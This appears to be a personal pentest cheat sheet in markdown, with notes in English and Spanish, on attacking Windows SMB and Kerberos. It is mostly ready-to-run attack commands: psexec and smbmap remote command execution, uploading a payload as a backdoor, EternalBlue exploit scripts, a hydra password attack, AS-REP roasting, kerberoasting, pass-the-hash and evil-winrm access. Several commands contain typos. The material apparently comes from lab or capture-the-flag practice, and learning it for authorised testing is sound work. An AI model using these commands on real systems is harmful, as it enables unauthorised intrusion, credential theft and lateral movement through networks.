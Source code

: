 ```yaml
---
title: 'SMB (Server Message Block)'
description: ''
pubDate: 'Jul 03 2022'
heroImage: '/ldapi.jpg'
tag: ['windows', 'smb']
slug: vuln/smb
---
```


## Information

- It's a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN).

- Uses port 445(TCP). SMB ran on top of NetBIOS using port 139.

- Samba is an open source Linux implementation of SMB, and alllows Windows systems to access Linux shres and devices

## Exploit

knowing creds.

```bash
psexec.py Administrator@target cmd.exe
```

### Windows Discover and mount

How to mount in powershell:

```bash
# Clear the stored session
net use * /delete

# Mount the target folder
net use Z: \\10.4.17.133\C$ smbserver_771 /user:administrator
```

### SMB Windows Recon: Nmap scripts

```bash
$nmap target
135/tcp   open    msrpc
139/tcp   open    netbios-ssn
445/tcp   open    microsoft-ds

# list the supported protocols and dialects of an SMB server
$nmap -p445 --script smb-protocols target
...

# information about the SMB security level.
$nmap -p445 --script smb-security-mode target
...(but defult usually makes good )
... acc

# with creds discover sensitive information
$nmap -p445 --script smb-enum-sessions target
...

# In case guest login is not enabled we can always use valid credentials of the target machine to discover the same information

$nmap -p445 --script smb-enum-sessions --script-args
...smbusername=administrator,smbpassword=smbserver_771 target

$nmap -p445 --script smb-enum-sessions target --script-args smbusername=administrator,smbpassword=smbserver_771 target
...

$nmap -p445 --script smb-enum-shares target
...

$nmap -p445 --script smb-enum-shares target --script-args
...smbusername=administrator,smbpassword=smbserver_771 target
```

### smbmap Recon

```bash
# NULL SESSION - user, pass, directory, host
smbmap -u guest -p "" -d . -H target

# Remote code execution :D!
smbmap -u administrato -p "" -d . -H target -x 'ipconfig'

smbmap -u administrato -p "" -d . -H target -x 'ipconfig' -L

# connect to C drive
smbmap -u administrato -p "" -d . -H target -x 'ipconfig' -r 'C$'

# upload file
smbmap -u Administrator -p "smbserver_771" -H target -d --upload '/root/payload' 'C$\backdoor'

# download file
smbmap -u Administrator -p "smbserver_771" -H target --download 'C$\flag.txt'

```

### SMBClient - ftp-like client to access SMB/CIFS resources on servers.

Windows 7 y smb puede ser un Eternalblue.

-> AutoBlue-Ms17-010

1: eternal_checker.py target
2: python2.7 zzz_exploit.py target

```bash
$nmbloopup -A taget

$rpcclient -U "" -N target

# If we see IPC$ maybe null session works
$smbclient -L target -N

...-h
...enumerate

######################################
# Despues de montar podemos ver en ls -lsa /media/k_share
sudo mount.cifs //target/c /media/k_share user=,pass=

# Dictionary attack

hydra -l admin -P /usr/share/wordlist/rockyou.txt target smb

#if discover pass
smbmap -H target -u admin -p password1

# pivot
$smbclient -L target -U jane
or
$smbclient //target/jane -U jane

#other way to find users:
$enum4linux -r -u "admin" -p "password1" target

```

### Kerberos

```bash
# AS-REP Roasting attack, el usuario que muestre tiene configurado UF_DONT_REQUIRE_PREAUTH
GetNPUsers.py domaindomain_name.local/ -no-pass -usersfile culos_validos.txt

# intentamos crackear el hash con jhon, si conseguimos el pass toca
# kerberoasting attack
GetUserSPN.py 'domain_name.local/username:password' -request

# no aplica psexec.py si cmp no pwnea el usuario, si no muetra nada smbmap

#desplegar un smbrelay y tratando de interceptar autenticacion a nivel red si el smb no esta firmado se puede tratar de coger la autenticacion de un usuario privs, es un hash a nivel de red no permite hacer cepas de hash o retocar el responder.conf indicadno las target.
# apt install bloodhound neo4j
neo4j console
# bloodhound para enumerar, detectar vias para escalar privs
bloodhound-python.py -c all -u 'culo' -p 'culo' -ns 10.10.10.10 -d domainname.local

# pass de hash
cmp winrm doman -u 'culo' -H 'HASH'
# este usuario pertenece al grupo remote management users
evil-winrm -i domain -u 'culo'

```
